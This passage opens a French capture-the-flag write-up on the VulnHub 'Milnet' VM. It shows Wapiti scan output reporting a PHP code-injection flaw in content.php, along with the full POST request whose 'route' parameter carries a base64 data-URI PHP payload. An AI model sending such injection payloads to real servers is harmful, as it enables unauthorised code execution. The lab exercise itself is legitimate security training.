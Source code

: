 ```yaml
---
title: "Solution du CTF Milnet de VulnHub"
tags: [CTF,VulnHub]
---
```


[Milnet](https://vulnhub.com/entry/milnet-1,148/) est un CTF qui aurait sans doute dû me prendre plus de temps à résoudre que ça, mais `Wapiti` disposait de payloads solides pour trouver la vulnérabilité permettant de mettre un pied dans la porte.

NB : La VM fonctionne avec VMWare mais semble bloquer avec VirtualBox.

La VM dispose de deux ports ouverts, SSH et *lighttpd*.

Sur ce dernier, on trouve un site minimaliste qui utilise PHP et des frames. Ni une ni deux je lance `Wapiti` :

```console
$ wapiti -u http://192.168.242.131/ --color

     __      __               .__  __  .__________
    /  \    /  \_____  ______ |__|/  |_|__\_____  \
    \   \/\/   /\__  \ \____ \|  \   __\  | _(__  <
     \        /  / __ \|  |_> >  ||  | |  |/       \
      \__/\  /  (____  /   __/|__||__| |__/______  /
           \/        \/|__|                      \/
Wapiti 3.1.7 (wapiti-scanner.github.io)
[*] Saving scan state, please wait...

[*] Launching module sql

[*] Launching module http_headers
Checking X-Frame-Options:
X-Frame-Options is not set
Checking X-Content-Type-Options:
X-Content-Type-Options is not set

[*] Launching module xss

[*] Launching module ssl

[*] Launching module redirect

[*] Launching module exec
---
PHP evaluation in http://192.168.242.131/content.php via injection in the parameter route
Evil request:
    POST /content.php HTTP/1.1
    host: 192.168.242.131
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    content-type: application/x-www-form-urlencoded
    referer: http://192.168.242.131/nav.php
    content-length: 75
    Content-Type: application/x-www-form-urlencoded

    route=data%3A%3Bbase64%2CPD9waHAgZWNobyAndzRwMXQxJywnX2V2YWwnOyA%2FPg%3D%3D
---

[*] Launching module csp
CSP is not set

```